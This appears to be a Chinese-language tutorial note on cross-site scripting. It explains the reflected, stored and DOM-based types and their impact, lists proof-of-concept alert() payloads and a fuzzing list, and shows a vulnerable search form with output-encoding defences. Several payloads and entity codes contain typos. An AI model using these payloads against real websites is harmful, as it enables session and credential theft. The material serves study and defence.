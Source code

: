 # XSS跨站脚本攻击

## 漏洞原理

Cross-Site Scripting (跨站脚本攻击)简称XSS

攻击者**输入**恶意的js代码，由于开发未对输入进行**过滤**，未在数据输出时进行**转义**，导致恶意js代码在客户端上**执行**。

xss分类:
两类:持久型和非持久型
三类:反射型、存储型、DOM型

- 反射型 XSS，恶意脚本来自当前的 HTTP 请求。
- 存储型 XSS，恶意脚本来自网站的数据库。
- 基于 DOM 的 XSS，漏洞存在于客户端代码中，而不是服务器端代码中。

## 漏洞危害

利用跨站点脚本漏洞的攻击者通常能够：

- 冒充或伪装成受害用户。
- 执行用户能够执行的任何操作。
- 读取用户能够访问的任何数据。
- 捕获用户的登录凭据。
- 对网站进行虚拟污损。
- 将木马功能注入网站。

信息窃取:用户凭证、用户账号密码
键盘记录
网络钓鱼
用户劫持
网页挂马
暗链
xss ddos
xss蠕虫

## 漏洞利用

### 反射型XSS

是最简单的跨站点脚本。当应用程序在 HTTP 请求中接收数据并以不安全的方式在即时响应中包含该数据时，就会出现这种情况。

```
<script>alert(1111)</script>
```

```
name=<img src=1 onerror=alert(1)>
```

### 存储型XSS

1.攻击者将恶意代码提交到目标网站的数据库中。
2.受害者打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在HTML中返回给浏览器。
3.受害者浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4.恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。

```
hi"><script>alert(document.cookie)</script>
```

```
<input onfocus=alert("好好学习，天天向上!") autofocus>
```

### DOM型XSS

文档对象模型 (DOM) 是 Web 浏览器对页面元素的分层表示。网站可以使用 JavaScript 来操作 DOM 的节点和对象以及它们的属性。DOM 操作本身不是问题。但是，不安全地处理数据的 JavaScript 可能会引发各种攻击。当网站包含采用攻击者可控值（称为源）并将其传递到危险函数（称为接收器）的 JavaScript 时，就会出现基于 DOM 的漏洞

以下是可用于利用各种DOM漏洞的典型来源：

```
document.URL 
document.documentURI 
document.URLUnencoded 
document.baseURI 
location 
document.cookie 
document.referrer 
window.name 
history.pushState 
history.replaceState 
localStorage 
sessionStorage 
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB) 
Database
```

```
'onclick="alert(123)">
```

### XSS模糊测试

xss备忘清单https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

```
<script>alert(8888 )</script> 
<img src=1 onerror=alert(1)>
<script>confirm(8888)</script>
<script>prompt(8888)</script>
<anytag onmouseover=alert(1)>h 
<anytag onc Lick=alert(2)>h
<a onmouseover=alert(3)>h
<a onclick=alert(4)>h
<a href=javascript:alert(5)>h
<button/onclick=alert(6)>h
sform onsubmit=alert(10)><button>h
<img src=x onerror=alert(11)> 29
<meta http-equiv="refresh" content="0;
url=data:text/html,<script>alert(15)</script>">

```

### XSS防御方法

#### 代码实例：

String encodedContent = ESAPI.encoder().encodeForHTML(request.getParameter("inut');

```
<input type="text" value="<%= getParameter("keyword") %>">
<button>搜索</button>
<div>
您搜索的关键词是: <%=getParameter ("keyword") %>
</div>
```

构造链接: 

```
http://xxx/search?keyword="><script>alert('xss');</script>
```

返回代码

```
<input type="text" value=""><script>alert('XSS') ;</script>">
<button>搜索</button>
<div>
您搜索的关键词是: "><script>alert('XSS');</script>
</div>
```

#### 防御方法：

escapeHTML()：HTML实体编码

```
<	&it;
>	&gt;
"	&quot;
'	&#x27;
&	&amp;
/	&#x2F
```

```
<input type="text "
value=" &quot;&gt;&lt;script&gt;alert(&#x27;XSS&#x27;);&lt;&#x2F;script&gt;">
<button>搜索</button>
<div>
您搜索的关键词是: &quot;&gt;&lt;script&gt;alert(&#x27;XSS&#x27;);&1t;&#x2F;script&gt;
</div>
```

输入过滤，黑名单，过滤尖括号，单双引号#号

输出转义

针对于复杂文本，首先是过滤，使用白名单的方式，只允许用户输入简单标签，然后对于难以处理的标签进行转义编码，过滤或者编码之后，再把处理过后的数据放到<p>标签或者<div>标签等安全的HTML标签进行输出

添加httponly参数

